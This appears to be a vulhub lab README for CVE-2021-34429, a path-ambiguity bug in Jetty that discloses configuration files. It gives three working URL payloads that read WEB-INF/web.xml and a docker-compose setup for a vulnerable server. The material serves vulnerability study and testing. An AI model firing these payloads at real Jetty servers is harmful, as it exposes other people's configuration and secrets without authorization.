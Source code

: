 # Jetty Ambiguous Paths Information Disclosure Vulnerability (CVE-2021-34429)

[中文版本(Chinese version)](README.zh-cn.md)

Eclipse Jetty is a Java web server and Java Servlet container.

Jetty 9.4.40 fixed an ambiguous paths information disclosure vulnerability [CVE-2021-28164](https://github.com/vulhub/vulhub/tree/master/jetty/CVE-2021-28164), CVE-2021-34429 is a variation and bypass of it.

There are 3 types of payload that exfiltrate the content of `WEB-INF/web.xml`:

- Unicode based URL encoded: `/%u002e/WEB-INF/web.xml`
- `\0` with `.` bug:  `/.%00/WEB-INF/web.xml`
- `\0` with `..` bug: `/a/b/..%00/WEB-INF/web.xml`

The vulnerability affects the Jetty 9.4.37-9.4.42, 10.0.1-10.0.5, 11.0.1-11.0.5.

References:

- https://github.com/eclipse/jetty.project/security/advisories/GHSA-vjv5-gp2w-65vm
- https://xz.aliyun.com/t/10039

## Vulnerable Application

Execute the following command to start a Jetty 9.4.40 server.

```
docker-compose up -d
```

After the server starts, visit ``http://your-ip:8080`` to see an example page.

## Exploit

The sensitive file web.xml is not accessible through `/WEB-INF/web.xml`.

![](1.png)

Use payload `/%u002e/WEB-INF/web.xml` to bypass the restriction:

![](2.png)
